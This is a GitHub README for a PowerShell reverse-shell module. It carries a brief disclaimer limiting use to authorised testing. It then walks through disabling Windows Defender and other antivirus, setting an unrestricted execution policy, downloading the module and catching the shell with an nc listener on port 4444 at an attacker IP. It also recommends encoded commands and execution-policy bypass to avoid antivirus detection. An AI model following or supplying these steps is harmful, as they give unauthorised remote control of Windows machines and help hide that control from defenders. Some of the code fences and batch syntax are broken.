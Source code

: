 # ReverseShell - PowerShell
# Author: okpalandev
# Version: 1.0
# Date: 2024-03-24

## Disclaimer
This script is designed for educational and penetration testing purposes only. Do not use this script on systems that you do not have permission to test. The author of this script is not responsible for any damage caused by the use of this script.

## Description
This script is a reverse shell that uses PowerShell to connect to a remote host. The script is designed to be run on the target machine and will connect back to the attacker's machine. The script can be run on any Windows machine that has PowerShell installed. The script will open a connection to the attacker's machine and allow the attacker to execute commands on the target machine. The script is designed to be used for penetration testing and should only be used on systems that you have permission to test.

## Usage
To use the script, you will need to modify the IP address and port number in the script to match the IP address and port number of the attacker's machine. You will also need to run the script on the target machine. Once the script is running on the target machine, it will connect back to the attacker's machine and allow the attacker to execute commands on the target machine.

## Installation
To install the script, you can download the script from the GitHub repository and save it to your local machine. You can then import the script into PowerShell and run the script on the target machine.

## Requirements
1) Disable Windows Defender Real Time Protection  or any other Antivirus 
2) Add to Policy Execution
3) Run a Terminal as Administrator

```powershell
PS C:\> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser 
``` 

## Example
```powershell
PS C:\> Invoke-WebRequest -Uri "https://raw.githubusercontent.com/okpalandev/PSModules/main/ReverseShell/Modules/ReverseShell.psm1" -OutFile "ReverseShell.psm1"
```

```powershell
PS C:\> Import-Module .\ReverseShell.psm1
```
Then on the attacker machine, you can listen for the connection using Netcat or any other tool that can listen for incoming connections on the specified port.

```bash
$ nc -lvp 4444
```
    
Finally, you can start the reverse shell on the target machine by running the following command:

```powershell
PS C:\> Start-ReverseShell -IP "attacker_ip" -Port " 4444 " 
```

It is best pratice to use encoded command to avoid detection by Antivirus
in a batch file you can use the following command to run the script.

```batch
@echo off
powershell -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File "C:\path\to\ReverseShell.psm1"
```

In the script, you can use the following command to encode the script.

```batch
@echo off # Don't forget to add the ampersand at the beginning of the command.
powershell -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -EncodedCommand "& EncodedCommand"
````
## Changelog
- 1.0: Initial script
````
```

